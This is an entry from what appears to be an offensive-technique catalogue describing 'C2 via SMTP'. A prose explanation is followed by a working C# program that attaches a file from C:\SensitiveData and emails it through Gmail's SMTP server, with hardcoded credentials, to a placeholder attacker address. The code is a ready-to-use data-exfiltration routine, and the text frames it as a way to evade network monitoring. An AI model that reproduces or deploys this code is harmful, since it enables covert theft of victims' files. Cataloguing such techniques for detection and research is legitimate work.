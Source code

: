 # Technique Name: **C2 via SMTP**

## Author Information

- Nickname: tasdir
- First Name: Tasdir
- Last Name: Ahmmed
- Email: Optional
- GitHub: https://github.com/tasdir
- Twitter: https://x.com/tasdir_x
- LinkedIn: https://www.linkedin.com/in/tasdir/

## Technique Information

- Technique Category: U0910
- Technique Tags: SMTP,C2,Data Exfiltration,Encrypted Emails
- Technique General Detail: 

```
C2 via SMTP is a technique where attackers leverage the Simple Mail Transfer Protocol (SMTP) to establish command and control communication or to exfiltrate data. By utilizing email messages, an attacker sends stolen data via emails to a controlled email account. This method is often used to bypass traditional network monitoring solutions since SMTP traffic is generally considered benign.
To implement C2 via SMTP, attackers embed hardcoded credentials within malware to connect to an email server. The malware sends exfiltrated data, such as stolen files or system information, as attachments via email. SMTP providers, such as Gmail or Outlook, can be misused to act as intermediaries for C2 traffic, making the communication harder to detect. Additionally, attackers may use SSL/TLS encryption to secure emails, further complicating detection efforts.

```



##Featured Windows API's: SmtpClient (C# libraries) , System.Net.Mail.MailMessage , System.IO (file handling for attachments)

## Code Snippet
'''
using System;
using System.IO;
using System.Net;
using System.Net.Mail;

class C2ViaSMTP
{
    static void Main()
    {
        // Target file exfiltrate
        string targetFilePath = @"C:\SensitiveData\report.pdf";
        string emailRecipient = "attacker@example.com";
        string attackerEmail = "malwarebot@gmail.com";
        string attackerPassword = "maliciouspassword123";

        try
        {
            // Send data as a email message
            MailMessage message = new MailMessage();
            message.From = new MailAddress(attackerEmail);
            message.To.Add(emailRecipient);
            message.Subject = "Exfiltrated Data";
            message.Body = "Attached file contains sensitive exfiltrated data.";
            
            // Add target file as attachment
            Attachment attachment = new Attachment(targetFilePath);
            message.Attachments.Add(attachment);

            // Configure SMTP client
            SmtpClient smtpClient = new SmtpClient("smtp.gmail.com")
            {
                Port = 587,
                Credentials = new NetworkCredential(attackerEmail, attackerPassword),
                EnableSsl = true
            };

            // Send email
            smtpClient.Send(message);
            Console.WriteLine("Data exfiltration email sent successfully.");
        }
        catch (Exception ex)
        {
            Console.WriteLine("Error: " + ex.Message);
        }
    }
}

'''

